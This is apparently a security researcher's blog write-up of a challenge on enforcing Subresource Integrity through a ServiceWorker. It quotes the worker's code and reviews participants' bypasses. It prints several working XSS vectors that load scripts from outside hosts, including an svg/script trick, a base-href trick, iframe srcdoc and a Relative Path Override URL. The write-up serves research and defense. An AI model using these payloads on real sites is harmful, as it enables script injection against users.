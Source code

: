 Title: Challenge Write-up: Subresource Integrity in Service Workers
Date: 2017-03-25
Author: Frederik
Slug: sw-sri-challenge

# Challenge Write-up: Subresource Integrity in Service Workers

For those who have not participated in my [challenge](https://serviceworker.on.web.security.plumbing/), this document is about implementing security features in ServiceWorkers. A
ServiceWorker (SW) is a type of [Web Worker](https://duckduckgo.com/?q=web+worker&t=ffab&ia=web) that can intercept and modify HTTP requests. A ServiceWorker is allowed to see requests towards your own as well as other origins – though it [must not](https://frederik-braun.com/publications/thesis/Thesis-Origin_Policy_Enforcement_in_Modern_Browsers.pdf) be able to see the response from cross-origin resources.

The idea of the [challenge](https://serviceworker.on.web.security.plumbing/) was to write a tiny ServiceWorker that would intercept all HTTP requests and cancel everything except those blessed by a white-list. On top of that, external resources (e.g., scripts) must only be loaded with [Subresource Integrity](https://www.w3.org/TR/SRI/) (SRI). This can be easily achieved, because `fetch()` supports SRI out of the box:
If you supply the `integrity` keyword in the options parameter to `fetch`, it will automatically fail unless the hashes match:

Here's the relevant code snippet with some extra comments
```js
self.addEventListener("fetch", function(event) {
  let request = event.request;
  if (request.method === "GET") {
    // check if URL in pre-defined whitelist at the top of the document:
    if (request.url in INTEGRITY_METADATA) { 
      // if HTML does not contain integrity=, use from the whitelist
      let sriHash = request.integrity || INTEGRITY_METADATA[request.url];
      let fetchOptions = {
        integrity: sriHash,
        method: request.method,
        mode: "cors", // if we have integrity metadata, it should also use cors
        credentials: "omit", // ...and omit credentials
        cache: "default",
      };
      // ServiceWorker lets the document proceed fetching the resource, but with modified fetch options
      event.respondWith(fetch(request, fetchOptions));
```

The goal of the challenge was to make the document execute your script - essentially bypassing the ServiceWorker. To facilitate such an attack, I implemented a simple reflected Cross-Site-Scripting (XSS) vulnerability and hinted to its existence in the rules. XSS in general allows executing all kinds of scripts. Inline as well as from a specified URL. Because we wanted the script to go through the ServiceWorker, we have also hardened the challenge with a Content Security Policy (CSP). Content Security Policy is a mechanism to restrict how scripts can be run from a website. The policy that I used disallowed all kinds of inline scripts in tags or event handlers (e.g., `<script>...</script>` or `onerror=`).
This essentially required an attacker to request a script that is living on their own domain, thus forcing them through the ServiceWorker.

Unless, of course, the attacker was able to find a browser bug involving an arcane constellation of markup that does *not* trigger the Fetch Event declared in the ServiceWorker.

### PEBKAC

As it turns out, most browsers bypass the ServiceWorker when reloading a page with CTRL+SHIFT+R. Not only did this cause some invalid submissions, it also took me until the day I am trying to summarize my finding to notice that I have incorrectly approved some attacks when they do not actually work. This affects the following submissions:
[Mario Heiderich](https://twitter.com/0x6D6172696F)'s vector is `<svg><script/href=//14.rs></script>` (which is even shorter on Firefox, because you can leave the closing `</script>` tag out).

*But it does not work* unless you hard-refresh. But with a hard-refresh, even `<script/href=//14.rs></script>` works, because, well, hard-refreshes bypass the ServiceWorker.

The same goes for [Artur Janc](https://twitter.com/arturjanc/)'s submission. His approach looks like this `<base href="//14.rs"><script src=/></script>`, using Mario's short domain name. It also falls flat when the ServiceWorker is correctly installed.

I'm sincerely sorry, but I have to gently wipe you off the leader board. I admit I should have done a better job at testing.
I'm very sure you would have found a valid solution, if I had judged the challenge more properly.

### Bypassing the Service Worker

Now, let's head on to the first submission.
First blood was drawn by [Manuel Caballero](https://twitter.com/magicmac2000/), who figured out that a script loaded in an `<iframe srcdoc=..>` is not going through the ServiceWorker. This is somewhat weird, given that a script running `navigator.serviceWorker.getRegistrations()` in this iframe returns the active ServiceWorker at sri-worker.js.

[Masato Kinugawa](https://twitter.com/kinugawamasato) promptly followed suite with the same attack vector. He also noted that a simple `<script src=evil.com></script>`-style vector also works in Private Browsing mode. This stems from the fact that the XSS vulnerability usually wins a race with the ServiceWorker registration. Note that the ServiceWorker must be registered from a separate JS file, since inline scripts are disallowed by CSP. This registration happens asynchronously and has to be faster then another script tag that is controlled by the attacker. It's certainly noteworthy, but I did not count this as a valid submission: In a real life scenario, an attacker is only really successful if the victim has a session associated with the web page and has also visited the web page before. In this case, the ServiceWorker is already registered and the bootstrapping is a no-op.
I admit that this is a clear gap in my rules, so kudos to [Masato Kinugawa](https://twitter.com/kinugawamasato) (and some other folks who found this issue later on)!

[Alex Inführ](https://twitter.com/insertScript/) sent a solution that also used iframe srcdoc, but added the sandbox attribute, which cost him a few more characters.

In a similar vain, [Eduardo Vela](https://twitter.com/sirdarckcat/) sent me to [https://0v.lv/?e](https://0v.lv/?e), which contains an iframe sandbox, that links to a conventional XSS on the domain. The trick here, is that navigations from an iframe sandbox pointing to a website with a Service Worker will skip trigger the ServiceWorker. This is a nice find, but wasn't considered a valid solution as it required user interaction.

### Implementation flaws and assumptions

Having looked at those submissions that the ServiceWorker does not see, let's take another look at the rest of its source code. Some submissions also found implementation bugs. Here's the code right after the white-list check. Again, I'll add some extra comments.

```js
let LOCALFILES = {};
LOCALFILES["/style.css"] = "sha384-q2bP418TFL/LOAo5XrjD7OciiOi63q6OKnDH67oOGNkWc/rvUaWpynoatxySxEPF";
LOCALFILES["/sri-sha.js"] = "sha384-TKCoLrAkiPTzJzLNLqSmFqC0XA9PCMUwSYg2E/FosZEy7h26mwR9wONvTZ9Zvtj9";
LOCALFILES["/initialize-sw.js"] = "sha384-32IhktVnY10EwfUKtlhYBUoBysS2QM8cmW1bW2HENM3nIEmGDNwpkqdmpaE2jF7Z";#
LOCALFILES["/sri-worker.js"] = "sha384-rRSq8lAgvvL9Tj617AxQJyzf1mB0sO0DfJoRJUMhqsBymYU3S+6qW4ClBNBIvhhk"
let parsed = new URL(request.url);
// other free pass: same-origin
if (parsed.origin === ownLocation.origin) {
  // we allow ourselves (the forward-slash) and paths required for the website to work. some stylesheets etc.
  if ((parsed.pathname === '/') || (parsed.pathname in LOCALFILES)) {
    // note that these requests do not require integrity. the integrity metadata in the object was left out here. 
    // this is mostly a decoy "bug", which I was hoping would confuse people.
    console.log("Fetching same-origin thingy", request.url)
    event.respondWith(fetch(request));
  } else {
    console.log(`[${LOGNAME}] Can not fetch ${request.url}. No integrity metadata.`);
    event.respondWith(Response.error());
  }
} else {
  // cross-origin: blocked.
  console.log(`[${LOGNAME}] Can not fetch ${request.url}. No integrity metadata.`);
 event.respondWith(Response.error());
}
```

To briefly summarize, we first perform a same-origin check and then allow files in the same origin that are contained in the `LOCALFILES` object or the file `/`. Even though the object contains hashes, these are never added to the request and thus never checked. I did not think of this case as a vulnerability and mostly left this inconsistency as a decoy.
For every other type of request the code responds with a network error, i.e.,`Response.error()`.

### Thinking outside the box

This fine submission reached me when I was leaving the subway on my way home and I *really* did not understand what was going on:

[https://serviceworker.on.web.security.plumbing/index.php/?name=&lt;script/src=//0v.lv>&lt;/script>](https://serviceworker.on.web.security.plumbing/index.php/?name=%3Cscript%2Fsrc%3D%2F%2F0v.lv%3E%3C%2Fscript%3E)

The really important thing to note here is that the request URL contains `/index.php/?name=`.
This trick is called [Relative Path Override (or RPO)](http://www.thespanner.co.uk/2014/03/21/rpo/). A technique first described and coined by [Gareth Heyes](https://twitter.com/garethheyes). RPO attacks the fact that the script is loading resources from a relative path `initialize-sw.js`. The attacker providing a different request path, can thus mess up the additional resource loading. The website will attempt to load the necessary files from `/index.php/initialize-sw.js` instead and therefore fails.

This is of course extra nasty, when those scripts behind relative paths are implementing security features.
A truly nice find, by [Eduardo Vela](https://twitter.com/sirdarckcat/)!


### Conclusions & Acknowledgments

It's interesting to use fresh technologies like ServiceWorkers, Subresource Integrity and Content Security Policy (heh) in combination and see what happens. Building your own security solutions on top of the web platform is a very complex undertaking and makes you realize that those features were created ad-hoc in a very unsystematic way. As a result of that, I'd advise you not to implement hard guarantees about regulating `fetch()` calls using Service Workers.

But it's always great fun to think of something interesting and then have yourself proven wrong in the real world. Thanks to [Anne van Kersteren](https://twitter.com/annevk/) for making me look into an implementation of Subresource Integrity (and `require-sri-for`) with Service Workers. And of course, thanks to all the participants that tried (and succeeded) to break the implementation in various ways.

If you want mandatory Subresource Integrity, I recommend you look into the SRI2 working draft. The `require-sri-for` CSP extension has been implemented in Firefox and Chrome, but in both cases it's behind a flag (`security.csp.experimentalEnabled` and *experimental Web Platform features* respectively)
